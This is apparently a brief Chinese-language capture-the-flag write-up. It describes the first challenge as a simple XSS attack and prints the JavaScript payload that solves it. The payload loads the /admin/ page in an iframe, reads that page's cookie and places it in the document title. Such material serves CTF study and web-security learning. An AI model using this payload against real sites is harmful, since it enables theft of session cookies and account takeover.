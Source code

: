 第一问就是简单的xss攻击（感觉还是XSS学少了）

```html
<iframe src="/admin/"></iframe>
<script>
document.title = 'running';
setTimeout(()=>{
    document.title = 'got: ' + document.querySelector('iframe').contentDocument.cookie;
}, 500);
</script>
```

